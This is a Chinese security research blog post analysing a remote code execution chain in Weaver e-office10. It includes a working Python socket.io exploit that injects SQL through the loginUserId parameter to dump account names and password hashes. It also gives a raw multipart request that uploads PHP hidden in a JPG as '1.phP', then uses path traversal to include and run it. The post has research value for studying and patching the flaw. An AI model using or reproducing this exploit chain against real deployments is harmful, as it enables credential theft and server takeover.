










# 泛微 e-office10 远程代码执行漏洞分析 - 先知社区

泛微 e-office10 远程代码执行漏洞分析

- - -

根据微步描述知道是 im 服务的洞`https://mp.weixin.qq.com/s/4om8iuGpAKWPjEocBB4lKQ`

```plain
2、临时修复方案：

1.使用防护类设备对相关资产进行 SQL 注入、文件包含等攻击的防护；
2.在确认不影响业务的情况下可临时关闭 im 服务，或使用网络 ACL 策略限制 im 服务的公网访问。
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201145-7722c0bc-8eb0-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201149-7956b8fc-8eb0-1.png)

得到 nodejs 的 server 路径。没混淆什么的。diff 一下

知道是`getPersonalOfflineRecord`的问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201153-7ba2c934-8eb0-1.png)

socket 事件为`outline recordLength`时触发。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201159-7f07bf58-8eb0-1.png)

```plain
loginUserId 是 query 传进来的
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201238-96bef2a6-8eb0-1.png)

```plain
继续跟 connectToSocket
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201244-9a488824-8eb0-1.png)

这里的`/web`是`websocket`的`namespace`

`outline recordLength`是事件

python 连接 websocket 代码如下

有个坑。。。`socketio`报错可能需要装特定版本才能连上。不然会有`OPEN packet not returned by server`报错

`pip install python-engineio==3.14.2 python-socketio==4.6.0`

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')
#发送事件
@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))
#用来接收返回值

sio.connect('http://192.168.0.139:4986?loginUserId=admin&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

现在主要来看`outline recordLength`事件的处理

`personalRecordTableNameArray`为查询`information_schema.tables`中`chat_personal_record`开头的表

chat\_personal\_record 开头的表默认只有`chat_personal_record`。需要自己新建账号。聊天几句就会创建`chat_personal_record_1`等。后面有用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201256-a13d5150-8eb0-1.png)

这里就判断了。数据库中的表是否有`chat_personal_record_0、1、2、3`。如果没有就不会继续执行变量赋值了。下面的所有`sql`都依赖于这

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201301-a4370a72-8eb0-1.png)

之后就是直接带入 sql 执行了。然后返回值。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201305-a6839660-8eb0-1.png)

最终 exp 如下

```plain
import socketio

sio = socketio.Client()

@sio.on('connect', namespace='/web')
def connect():
    print('Connected to the server')
    sio.emit('outline recordLength', None, namespace='/web')

@sio.on('send recordLength', namespace='/web')
def on_message(data):
    print('Received data: ' + str(data))


sio.connect('http://192.168.0.139:4986?loginUserId=aa",`chat_object`) union select 1,2,3,group_concat(user_accounts,0x7e,password,0x7e) ,5,6,0,8,9,10,11,12 from user%23&loginDeptId=0&loginRoleId=1', namespaces=['/web'])

try:
    sio.wait()
except KeyboardInterrupt:
    pass
finally:
    sio.disconnect()
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201311-aa160ac4-8eb0-1.png)

这里 password 是 md5(unix)。要解。解不出来就没用。或者还有其他的接口可以直接 MD5 登录？

登录后之后文件包含利用。长亭之前也发过一个。抓过接口。

```plain
POST /eoffice10/server/public/api/welink/welink-move HTTP/1.1
Host: 192.168.0.139:8010
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.0.139:8010/eoffice10/client/web/system/user/manage
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvQIRygBK
Content-Length: 8003

------WebKitFormBoundaryvQIRygBK
Content-Disposition: form-data; name="file"; filename="1.phP"
Content-Type: image/png

jpg 文件内容 + 后面<?php xxxx
------WebKitFormBoundaryvQIRygBK--
```

只有内容校验。jpg 的。但是直接 php 不能上传 有过滤

并且上传在 attachment 目录不能直接访问

至于为啥这里要用 phP 下面再说

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201316-ad545d26-8eb0-1.png)

返回包对应的 attachment 目录为`attachment\2023\11\29\8de8701f16a64d88f5fda3ad1b3f5375\1.phP`

```plain
HTTP/1.1 200 OK
Date: Wed, 29 Nov 2023 10:14:22 GMT
Server: Apache
Cache-Control: no-cache, private
Connection: close
Content-Type: application/json
Content-Length: 2702

{"status":1,"data":[{"attachmentId":"8de8701f16a64d88f5fda3ad1b3f5375","attachmentName":"1.phP","attachmentThumb":"data:image\/jpg;base64,\/xxxxxxxx","attachmentSize":7841,"attachmentType":"jpg","attachmentMark":1}],"runtime":"0.170"}
```

这里文件上传就搞定了。接着看文件包含。搜`require(.*?)\$`搜到`getArrayFromPhp`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201321-b037d00e-8eb0-1.png)

这里看`getLangFileFullPath`的实现和上层调用`$local, $module`是否可控

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201325-b2a22358-8eb0-1.png)

先看方法实现。`$this->serverLangSuffix`是`.php` 并且`getServerLangFolder`是获取`eoffice10\server\resources`目录。所以只要`$filename`可控。就能`../../`配合 1.php 文件包含。由于泛微 E-office 只能 Windows 下部署 (官网试用只有 exe。咱也不知道有无 Linux 版)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201331-b60b76d4-8eb0-1.png)

由于 Windows 下大小写不分。上传`1.phP`。包含`1.php`可以包含到。。ok 接着回头看`getPhpLangArrayByModule`上层调用的`$module`

继续跟进`getServerStaticLangsByModule`

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201337-b9a45f04-8eb0-1.png)

module 可控。并且有定义路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201341-bc033586-8eb0-1.png)

带上登录的 Authorization 直接文件包含

[](https://xzfile.aliyuncs.com/media/upload/picture/20231129201345-be3fa42e-8eb0-1.png)
